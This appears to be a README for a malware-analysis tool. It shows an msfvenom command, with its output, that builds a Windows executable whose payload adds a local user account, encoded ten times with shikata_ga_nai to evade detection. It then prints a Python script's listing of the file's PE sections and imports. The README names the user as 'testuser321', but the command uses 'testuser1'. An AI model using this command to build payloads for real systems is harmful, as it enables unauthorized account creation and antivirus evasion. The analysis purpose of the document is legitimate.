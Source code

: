 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe \
testadd10.exe
('.text\x00\x00\x00', '0x1000', '0xa966', 45056)
('.rdata\x00\x00', '0xc000', '0xfe6', 4096)
('.data\x00\x00\x00', '0xd000', '0x705c', 16384)
('.rsrc\x00\x00\x00', '0x15000', '0x7c8', 4096) \

MSVCRT.dll
	_iob
	_except_handler3
	__set_app_type
	__p__fmode
	__p__commode
	_adjust_fdiv
	__setusermatherr
	_initterm
	__getmainargs
	__p___initenv
	_XcptFilter
	_exit
	_onexit
	__dllonexit
	strrchr
	wcsncmp
	_close
	wcslen
	wcscpy
	strerror
	modf
	strspn
	realloc
	__p__environ
	__p__wenviron
	_errno
	free
	strncmp
	strstr
	strncpy
	_ftol
	qsort
	fopen
	perror
	fclose
	fflush
	calloc
	malloc
	signal
	printf
	_isctype
	atoi
	exit
	__mb_cur_max
	_pctype
	strchr
	fprintf
	_controlfp
	_strdup
	_strnicmp
KERNEL32.dll
	PeekNamedPipe
	ReadFile
	WriteFile
	LoadLibraryA
	GetProcAddress
	GetVersionExA
	GetExitCodeProcess

